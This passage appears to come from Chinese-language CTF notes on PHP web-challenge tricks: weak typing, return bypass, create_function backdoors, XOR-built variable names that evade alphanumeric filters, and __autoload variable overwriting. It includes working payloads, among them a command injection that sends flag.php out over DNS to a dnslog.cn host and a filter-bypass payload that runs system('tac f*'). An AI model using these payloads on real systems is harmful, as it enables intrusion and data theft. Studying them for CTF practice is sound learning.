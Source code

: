 ```
`$F`;+ping `cat flag.php|awk 'NR==2'`.6d8ydj.dnslog.cn
```

### 22 call_user_func

```
https://www.php.net/manual/zh/function.call-user-func.php
```

### 23 弱类型

https://www.cnblogs.com/Mrsm1th/p/6745532.html

**一个数值和字符串进行比较的时候，会将字符串转换成数值**

### 24 绕过return

先看比如构造出来system("whoami")怎么执行它

1system("whoami"); error不会执行
1+system("whoami"); Warning 会执行

这里的说明就是前面的加个符号虽然会有警告但是依然会执行。

### 25 create_function函数的解析

但要注意在php中的命名空间这一个比较坑的点，我们必须得抓住机会。`\`

https://www.cnblogs.com/zzjdbk/p/12980483.html

经典留后门。

### 26 php中奇怪的中文变量名

绕过字母数字过滤。

```
payload：
$哈="`{{{"^"?<>/";${$哈}[哼](${$哈}[嗯]);&哼=system&嗯=tac f*
其中"`{{{" ^ "?<>/"异或得到_GET
$哈=_GET;
$_GET[哼]($_GET[嗯]);
?哼=system&嗯=tac f*
```

### 28 __autoload特殊属性

```
这个题一点点小坑__autoload()函数不是类里面的
__autoload — 尝试加载未定义的类
最后构造?..CTFSHOW..=phpinfo就可以看到phpinfo信息啦
原因是..CTFSHOW..解析变量成__CTFSHOW__然后进行了变量覆盖，因为CTFSHOW是类就会使用
__autoload()函数方法，去加载，因为等于phpinfo就会去加载phpinfo
接下来就去getshell啦
```
